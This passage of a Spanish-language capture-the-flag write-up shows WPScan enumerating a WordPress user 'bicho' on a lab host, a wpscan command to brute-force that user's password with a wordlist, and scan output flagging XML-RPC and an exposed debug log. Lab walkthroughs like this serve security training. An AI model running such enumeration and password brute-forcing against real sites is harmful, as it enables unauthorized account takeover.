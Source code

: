 ```
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat May  3 11:04:46 2025
[+] Requests Done: 70
[+] Cached Requests: 6
[+] Data Sent: 15.642 KB
[+] Data Received: 22.729 MB
[+] Memory used: 204.621 MB
[+] Elapsed time: 00:00:02
```

Veremos que hemos descubierto un usuario llamado `bicho` por lo que vamos a intentar `crackear` la contraseña de dicho usuario.

```shell
wpscan --url http://bicho.dl/ --usernames bicho --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://bicho.dl/ [172.17.0.2]
[+] Started: Sat May  3 11:06:33 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://bicho.dl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://bicho.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Debug Log found: http://bicho.dl/wp-content/debug.log
```